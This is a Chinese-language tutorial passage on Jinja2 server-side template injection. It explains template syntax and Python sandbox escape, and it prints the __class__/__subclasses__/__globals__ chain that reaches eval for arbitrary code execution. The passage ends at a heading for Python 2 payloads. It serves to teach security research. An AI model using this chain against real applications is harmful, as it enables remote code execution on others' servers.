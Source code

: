 jinja2 模板中使用 {{}} 语法表示一个变量，它是一种特殊的占位符。

当利用 jinja2 进行渲染的时候，它会把这些特殊的占位符进行填充 / 替换，jinja2 支持 python 中所有的 Python 数据类型比如列表、字段、对象等。

inja2 中的过滤器可以理解为是 jinja2 里面的内置函数和字符串处理函数。

被两个括号包裹的内容会输出其表达式的值。

##### 漏洞利用

payload 原理

Jinja2 模板中可以访问一些 Python 内置变量，如 [] {} 等，并且能够使用 Python 变量类型中的一些函数，这里其实就引出了 python 沙盒逃逸。

###### python 沙盒逃逸

python 的内敛函数很强大，可以调用一切函数做自己想做的事情

```
__builtins__
__import__
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUcLl1v7272Eo1U5mCSNv72DMIzWUl48rSyspszHibQZqZ3K6PHmpSeLQ/640?wx_fmt=png)

在 python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是需要用 object 去操作的，这是两种创建 object 的方法

Python 中一些常见的特殊方法：

```
__class__返回调用的参数类型。
__base__返回基类
__mro__允许我们在当前Python环境下追溯继承树
__subclasses__()返回子类
```

现在我们的思路就是从一个内置变量调用 class.base 等隐藏属性，去找到一个函数，然后调用其 globals[‘builtins‘] 即可调用 eval 等执行任意代码。

```
().__class__.__bases__[0]
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
[].__class__.__bases__[0]
#builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
>>>''.__class__.__base__.__subclasses__()
# 返回子类的列表 [,,,...]
#从中随便选一个类,查看它的__init__
>>>''.__class__.__base__.__subclasses__()[30].__init__
<slot wrapper '__init__' of 'object' objects>
# wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性
#再换几个子类，很快就能找到一个重载过__init__的类，比如
>>>''.__class__.__base__.__subclasses__()[5].__init__
>>>''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']
#然后用eval执行命令即可
```

安全研究员给出的几个常见 Payload

###### payload python2
